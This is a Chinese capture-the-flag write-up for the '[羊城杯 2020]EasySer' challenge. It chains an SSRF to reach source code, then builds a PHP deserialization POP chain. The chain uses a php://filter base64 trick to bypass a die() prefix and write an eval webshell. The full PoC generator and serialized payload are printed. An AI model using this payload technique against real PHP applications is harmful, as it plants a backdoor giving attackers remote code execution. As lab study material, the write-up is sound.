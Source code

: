 ```yaml
---
title: '[羊城杯 2020]EasySer'
date: 2024-10-22 14:16:42
tags: 反序列化
categories: 刷题笔记
---
```


## [羊城杯 2020]EasySer

打开网页看到个这玩意，还以为网页又崩了

![image-20241022153550094](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410221535204.png)

我们打开robots.txt，找到了个新文件

![image-20241022153637493](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410221536547.png)

我们访问看看

<!--more-->

![image-20241022153656899](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410221536940.png)

看上去挺像ssrf的，我们打开页面源码，发现了个提示

![image-20241022153742610](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410221537645.png)

我们本地访问ser.php，得到源码

```
<?php
error_reporting(0);
if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} 
$flag='{Trump_:"fake_news!"}';

class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yasuo;
    }
    public function __toString(){
        if (isset($this->hero)){
            return $this->hero->hasaki();
        }else{
            return "You don't look very happy";
        }
    }
}
class Yongen{ //flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;
        
    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this-> file,$a);
    }
}
class Yasuo{
    public function hasaki(){
        return "I'm the best happy windy man";
    }
}

?>
```

我们发现这个页面输出了your hat is too black!，但ser源码里又没有这串字符串

我们猜测字符串和反序列化的unserialize在star1里

我们使用arjun工具爆破页面参数

```
arjun -u http://487dd981-b586-46dc-9fc2-d3921bdd7d18.node5.buuoj.cn:81/star1.php?path=http://127.0.0.1/ser.php -m GET
```

得到两个参数path和c，path已经有了，那c就是反序列化的传参点



我们来看源码，发现文件包含函数file_put_contents

```
class Yongen{ //flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;
        
    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this-> file,$a);
    }
}

```

我们可以将一句话木马写入文件中，再连接蚁剑得到flag，但问题是<?php die("nononon");?>'会强制终止代码

我们参考绕过死亡die的方法，用php过滤器来对文件内容进行base64解码，它的字符范围包括`a-z A-Z 0-9 = /`，计算`<?php die("nononon");?>`包含在内的字符，以4bytes一位编码来计算需要补多少位。点到`phpdienononon`一共是13位，我们还需要补三位，那我们直接在base64编码后的一句话木马内容前面加三个a即可

然后就是怎么触发`__tostring`方法了，看了wp才知道，那个页面的反序列化点会直接输出对象，能够直接触发该方法

poc

```
<?php
class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yongen;
    }
}
class Yongen{
    public $file;
    public $text;
        public function __construct(){
        $this->file = "php://filter/convert.base64-decode/resource=shell.php";
        $this->text="aaaPD9waHAgQGV2YWwoJF9QT1NUWzBdKTs/Pg==";
    }
}

echo serialize(new GWHT);
?>
    ----------------------------------------------
payload:
/star1.php?path=http://127.0.0.1/ser.php&c=O:4:"GWHT":1:{s:4:"hero";O:6:"Yongen":2:{s:4:"file";s:53:"php://filter/convert.base64-decode/resource=shell.php";s:4:"text";s:39:"aaaPD9waHAgQGV2YWwoJF9QT1NUWzBdKTs/Pg==";}}

```

![image-20241022155450810](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410221554840.png)

连接蚁剑，得到flag

![image-20241022155702877](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410221557919.png)
